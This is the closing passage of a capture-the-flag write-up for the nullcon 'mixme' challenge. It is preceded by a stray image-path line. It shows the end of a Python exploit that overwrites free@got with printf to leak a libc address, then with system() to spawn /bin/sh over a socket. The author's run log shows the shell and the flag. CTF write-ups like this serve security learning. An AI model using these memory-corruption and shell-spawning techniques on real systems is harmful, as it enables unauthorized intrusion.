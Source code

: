 ```python
# trigger system('/bin/sh')
z(s, 'get')
z(s, 'sh')  # this note contains '/bin/sh' and those contents are passed to system()
z(s, '7')

# shell spawned, interact with it!
t=telnetlib.Telnet()
t.sock=s
t.interact()

s.close()
```

I ran it, and to my surprise, I got it right the first time! I dropped into a shell on the remote box:

```bash
root@ubuntu-VirtualBox:/home/ubuntu/nullcon/mixme# python exploit.py
[+] overflowing a to set b to free@got
[+] replacing free() with printf()
[+] triggering format string
Name: Size: --%3$x--b768d024cSelect op (store/get/edit/exit): 
['b768d024']
[+] found first addr: 0xb768d024L
[+] system @ 0xb7667100L
[+] overflowing t to set q to free@got
[+] replacing free() with system()
/bin/sh
id
uid=1005 gid=1005 groups=0
cat flag.txt
aw3s0m3++_hipp1e_pwn_r0ckst4r
```

The flag was `aw3s0m3++_hipp1e_pwn_r0ckst4r`. This one was really though and I'm glad I managed to beat it with just 20 minutes left for the ctf!

